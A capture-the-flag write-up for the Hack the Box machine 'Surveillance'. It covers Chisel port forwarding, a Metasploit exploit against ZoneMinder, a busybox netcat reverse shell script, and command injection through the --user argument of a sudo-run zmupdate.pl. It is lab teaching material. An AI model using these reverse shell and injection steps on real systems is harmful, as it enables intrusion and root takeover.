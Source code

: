 ```yaml
---
description: >-
  H3xano's write-up on the HTB machine : [Medium] Surveillance
title: Hack the Box - Surveillance Writeup
date: 2023-12-13 00:00:00 -0000
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, writeup]     # TAG names should always be lowercase
image: /assets/img/surveillance-badge.png
---
```


## HTB - Surveillance

## Overview

![Descriptive information card about Surveillance](/assets/img/surveillance-infocard.png)

The target machine, named "Surveillance", is a medium difficulty Linux machine. It involves multiple steps for compromise. It begins with establishing a foothold as the www-data user, followed by privilege escalation through the Matthew user. The final escalation results in root access via the Zoneminder user.

### Target Information:

- **IP Address:** `<machine ip>`
- **Users:** www-data, Matthew, zoneminder

## Foothold:

### www-data to Matthew:

1. **Connect as www-data:**
   ```bash
   ssh www-data@<machine ip>
   ```
   Upon successful connection, retrieve the credentials for the Matthew user: `matthew:starcraft122490`.

### Matthew to Zoneminder:

1. **Port Forwarding with Chisel:**
   - Utilize Chisel for secure and efficient port forwarding.
     ```bash
     # Run Chisel server at attacker's machine
     ./chisel server --port 1337 --reverse --socks5
     ```

     ```bash
     # Transfer Chisel to victim's PC
     python -m http.server 8888
     wget <your_ip>:8888/chisel
     chmod +x chisel
     ./chisel client <your_ip>:1337 R:<victim_port>:127.0.0.1:8080 &
     ```

2. **Access Zoneminder CMS:**
   - The forwarded port allows access to the Zoneminder CMS from the attacker's machine. Open the browser and navigate to `http://127.0.0.1:<victim_port>`.

3. **Exploitation with Metasploit:**
   - Utilize Metasploit to exploit a vulnerability in Zoneminder Snapshots.
     ```bash
     msfconsole
     ```

     ```bash
     use exploit/unix/webapp/zoneminder_snapshots
     ```

     ```bash
     set RHOSTS <victim_ip>
     set RPORT <victim_port>
     set LHOST <your_ip>
     set TARGETURI /
     ```

     ```bash
     exploit
     ```

     ```bash
     shell
     ```

   This sequence results in the establishment of a Meterpreter session, providing a shell on the victim machine.

### Retrieve User Flag:

4. **Locate User Flag:**
   - Once in the Meterpreter session, navigate to the user's home directory and retrieve the user flag.
     ```bash
     cat /home/Matthew/user.txt
     ```

## Privilege Escalation:

### Zoneminder to Root:

1. **Prepare Reverse Shell:**
   - Create a reverse shell script (`rev.sh`) and place it in `/tmp` on the victim machine.
     ```bash
     #!/bin/bash
     busybox nc 10.10.xx.xx 443 -e sh
     ```

2. **Start a Listener:**
   - Initiate a listener on the attacker's machine to capture the reverse shell connection at port 443.

3. **Execute Privilege Escalation Command:**
   - Run the following command as the zoneminder user to leverage the `zmupdate.pl` script for privilege escalation.
     ```bash
     sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword2023
     ```

4. **Retrieve Root Flag:**
   - Upon execution, the reverse shell script triggers a connection to the attacker's machine. Navigate to the root directory and retrieve the root flag.
     ```bash
     cat /root/root.txt
     ```

## Conclusion:

This comprehensive approach ensures a systematic compromise of the target machine, covering initial access, privilege escalation, and retrieval of both user and root flags. It is crucial to replace placeholder values such as `<machine ip>`, `<your_ip>`, and `10.10.xx.xx` with actual values during the exploitation process. Happy hacking!
